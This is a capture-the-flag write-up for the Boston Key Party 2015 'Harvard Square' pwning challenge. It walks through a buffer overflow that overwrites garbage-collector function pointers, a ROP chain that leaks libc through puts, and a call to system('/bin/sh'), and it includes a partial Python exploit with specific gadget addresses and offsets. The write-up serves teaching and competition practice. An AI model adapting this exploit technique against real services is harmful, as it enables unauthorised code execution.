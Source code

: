 # Boston Key Party CTF 2015: Harvard Square

**Category:** Pwning
**Points:** 275
**Solves:** 16
**Description:**

> can you be a leet 0day broker? 52.1.91.215 2114 (libc is ubuntu adf3305fcd0345f706019cf94687d50b libc-2.19.so) : 275

## Write-up

The problem is a game about transcation of 0days.  
We can enter the password and cheat the game, but it's useless.   
The game print the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!`

The programe for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```
However, if understanding the game rule, we can know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It cannot overflow to return address, but we can use it to change function pointers. :D  

The programe use `simple-gc`.  
(https://github.com/dhamidi/simple-gc/)  
It's create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We can overwrite function ptr to `action_hiscore`, and we can overwrite the return address.  

Now, we can write the exploit.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
...
```

So we must find some gadget to control arguments at first.  
Then, we can use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I return to `action_hiscore()` again because it has `fflush()` at the end of function.  

After leak the address, we can calulate the address of `system()`.  
Next, We need a string of "/bin/sh".  
Luckily, we can find it in libc, too.  
So we can call `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

`flag: stay_in_school_and_dont_do_the_grugq`  

## Other write-ups and resources

* <http://ddaa.logdown.com/posts/256270-boston-key-party-ctf-2015-275-harvard-square>
* [Chinese](http://blog.orange.tw/2015/03/boston-key-parcty-ctf-2015-harvard.html)
